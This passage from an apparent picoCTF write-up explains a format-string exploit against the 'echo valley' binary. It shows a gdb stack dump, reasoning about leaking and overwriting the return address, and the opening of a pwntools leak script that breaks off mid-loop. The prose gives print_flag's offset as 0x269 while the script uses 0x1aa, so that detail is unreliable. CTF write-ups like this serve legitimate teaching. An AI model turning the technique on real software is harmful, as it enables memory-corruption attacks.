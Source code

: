 ```
2. ```print_flag```  has an offset of ```0x269```

That means if I wanted to resume execution at ```print_flag``` I'd have to leak the return address from the stack and subtract ```0x269```. Where do I write this new address?<br/>
Let's analyze the stack right before the vulnerable printf call.<br/>

Put the breakpoint on the call to the vulnerable printf (you can do this by disassembling echo_valley in gdb and checking the address of the last printf call)
```
gef➤  b *0x00005555555553e1
```
&nbsp;

After hitting our breakpoint I'll print the stack
```
gef➤  x/20gx $sp
0x7fffffffdae0:	0x70252e70252e7025	0x252e70252e70252e
0x7fffffffdaf0:	0x2e70252e70252e70	0x70252e70252e7025
0x7fffffffdb00:	0x252e70252e70252e	0x2e70252e70252e70
0x7fffffffdb10:	0x50252e50252e7025	0x252e70252e70252e
0x7fffffffdb20:	0x2e70252e70252e70	0x70252e70252e7025
0x7fffffffdb30:	0x000000000000000a	0x0000000000000000
0x7fffffffdb40:	0x0000000000000000	0x456f5f9094cfdc00
0x7fffffffdb50:	0x00007fffffffdb60	0x0000555555555413
0x7fffffffdb60:	0x0000000000000001	0x00007ffff7dc6ca8
0x7fffffffdb70:	0x00007fffffffdc60	0x0000555555555401
```
&nbsp;

As you can see the value on the stack correspond to the values we are printing out with ```%p```. You can also notice something important.<br/>
The stack address at  ```0x7fffffffdb50```  holds ```0x00007fffffffdb60```, also a stack address. And 8 bytes below ```0x7fffffffdb60``` lies the return address which we have to overwrite!<br/>
That means we can leak the stack address, subtract 8 bytes from it and we get an address to which we can then write the address of print_flag! 

Here's the exploit:
```python
from pwn import *

context.update(arch='amd64', os='linux')
#r = remote("shape-facility.picoctf.net", 58591)
r = process('./valley')

print_flag_offset = 0x1aa

message = ""
payload = f'' 
i = 1

print(str(r.recvuntil(':')))

print(str(r.recvline()))

while(True):
    payload = f'%{i}$p' 
    payload = payload.encode()

    r.sendline(payload)

    message = str(r.recvline().decode())
    print(message)

    if '413' in message:
```